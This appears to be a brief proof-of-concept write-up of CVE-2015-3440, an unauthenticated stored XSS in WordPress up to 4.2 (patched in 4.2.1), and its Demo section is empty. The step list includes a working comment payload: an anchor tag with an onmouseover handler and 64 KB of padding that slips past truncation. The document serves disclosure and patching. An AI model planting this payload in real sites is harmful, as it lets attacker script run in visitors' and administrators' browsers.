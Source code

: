 # Steps
###### Step 1 - Gain trust from the admin
	Create a comment on a post.

###### Step 2 - Wait
	Wait for approval from the admin.

###### Step 3 - Inject XSS
	Comment the payload.
	```
	<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
	```


# The types / classes of vulnerabilities involved and any related CVE identifiers
###### Unauthenticated Stored Cross-Site Scripting (XSS)

###### CVE-2015-3440 

# Affected versions and patches
###### Affected version
WordPress <= 4.2 

###### Patched in
version 4.2.1

# Demo
